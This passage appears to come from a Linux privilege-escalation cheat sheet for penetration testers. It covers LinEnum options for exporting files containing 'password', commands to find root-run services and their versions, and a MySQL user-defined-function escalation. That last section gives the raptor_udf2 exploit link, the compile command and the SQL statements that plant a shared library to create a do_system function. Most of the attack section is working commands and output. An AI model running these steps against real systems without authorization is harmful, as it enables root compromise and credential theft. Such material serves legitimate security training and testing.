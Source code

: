 ```bash
-t      Include thorough (lengthy) tests
-r      Enter report name                                                                                                                                                                                                                  
-h      Displays this help text                                                                                                                                                                                                            
                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                           
Running with no options = limited scans/no output file                                                                                                                                                                                     
######################################################### 
```

What's cool about LinEnum is that it can download and export interesting files with -e and -k

```bash
$ ./Linenum.sh -k password -e <export dir>
```

## Enumerate Programs / Services running as root + version

```bash
$ ps aux | grep "^root" #Shows all services running as root
$ <program> --version #Look at previously found root programs' version
# Running a program with --version/-v often shows version number

# On Debian, DPKG can show installed programs and versions
$ dpkg -l | grep <program>

# On RPM systems
$ rpm -qa | grep <program>
```

## MySql Privilege Escalation

mysqld --version\
User-defined functions when mysql is running as root

{% embed url="https://www.exploit-db.com/exploits/1518" %}

For this exploit to work, you must compile it differently if mysql is running as 64-bit. mysql must also be running as root for this to work and you either need creds to the database which is running as root, or you need to have to be able to log into the database as root with no password. If those conditions exist....too easy.\
&#x20;

{% code title="To compile for 64bit" %}
```bash
$ gcc -g -c raptor_udf2.c -fPIC

#The commands are also a little different since the exploit \
#was written for an older version of SQL
#The Location of the dump file
mysql>  use mysql;
mysql>  insert into foo values(load_file('/home/user/raptor_udf2.so'));
mysql>  select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql>  create function do_system returns integer soname 'raptor_udf2.so';
# Making sure what we created is actually created
mysql>  select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
```